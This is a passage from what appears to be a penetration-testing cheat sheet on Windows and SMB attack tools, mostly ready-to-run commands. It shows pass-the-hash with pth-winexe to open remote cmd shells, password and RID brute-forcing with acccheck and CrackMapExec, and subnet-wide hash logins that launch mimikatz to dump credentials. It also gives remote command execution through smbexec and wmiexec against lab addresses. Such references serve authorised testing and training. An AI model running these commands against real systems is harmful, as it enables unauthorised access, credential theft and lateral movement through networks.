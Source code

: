     pth-winexe -U Administrator%A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # ntlm hash encrypted with https://www.browserling.com/tools/ntlm-hash
    pth-winexe -U domain/user%A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # domain user
    pth-winexe -U Administrator%8F49412C8D29DF02FB62879E33FBB745:A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # lm+ntlm hash encrypted with https://asecuritysite.com/encryption/lmhash
    pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # ntlm hash + empty lm hash
    # or
    export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
    pth-winexe -U Administrator% //192.168.1.23 cmd
    ```
- nullinux <https://github.com/m8r0wn/nullinux>
    ```bash
    python3 nullinux.py -users -quick DC1.Domain.net
    python3 nullinux.py -all 192.168.0.0-5
    python3 nullinux.py -shares -U 'Domain\User' -P 'Password1' 10.0.0.1,10.0.0.5
    ```
- acccheck
  - Password attacks
    ```
    acccheck -v -t $ip -u <user> -P <password_file>
    ```
- mblookup
  - NetBIOS over TCP/IP client used to lookup NetBIOS names
- CrackMapExec
  - Automate assessing the security of large Active Directory networks
    ```bash
    crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
    crackmapexec smb <target(s)> -u username -H NTHASH

    crackmapexec -u 'guest' -p '' --shares 192.168.1.23
    crackmapexec -u 'guest' -p '' --rid-brute 4000 192.168.1.23
    crackmapexec -u 'guest' -p '' --users 192.168.1.23
    crackmapexec smb 192.168.1.0/24 -u Administrator -p P@ssw0rd
    crackmapexec smb 192.168.1.0/24 -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B
    crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -M mimikatz 192.168.1.0/24
    crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -x whoami 192.168.1.23
    crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B --exec-method smbexec -x whoami 192.168.1.23 # reliable pth code execution
    ```
- Smbexec <https://github.com/brav0hax/smbexec>
- wmiexec <https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py>
    ```
    ./wmiexec.py -hashes <ntlmhash> Administrator@10.10.0.1
    ```
- SuperScan
- Hyena
- Winfingerprint
- NetBIOS enumerator
